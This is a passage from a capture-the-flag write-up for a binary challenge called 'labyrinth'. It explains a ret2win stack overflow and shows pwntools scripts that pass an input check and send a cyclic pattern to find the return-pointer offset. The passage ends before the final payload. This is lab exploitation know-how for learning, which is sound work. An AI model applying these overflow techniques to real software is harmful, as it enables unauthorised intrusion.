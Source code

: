 ```C
    fputc((int)flag_char,stdout);
  }
  close(flag_fd);
  return;
}
```

escape_plan simply prints out the flag.

This makes the challenge a simple ret2win challenge, where you have to overwrite the return pointer on the stack to return to the escape_plan function and print the flag.

### Exploitation

First we'll write some code to pass the first check, so we can send input for the 2nd one:

```py
from pwn import *

gdbscript = """
b *main
c
"""

io = gdb.debug("./labyrinth",gdbscript=gdbscript)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

io.interactive()
```

This simply receives output from the program untill it's asking for input. Sends the correct door number to hit the 2nd prompt and waits untill it's prompted to send input again.

We can now send a cyclic pattern to figure out the point where we overflow into the return pointer and break at the address where main returns:

```py
from pwn import *

gdbscript = """
b *0x0000000000401602
c
"""

io = gdb.debug("./labyrinth",gdbscript=gdbscript)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

padding = cyclic(0x44)
io.sendline(padding)

io.interactive()
```

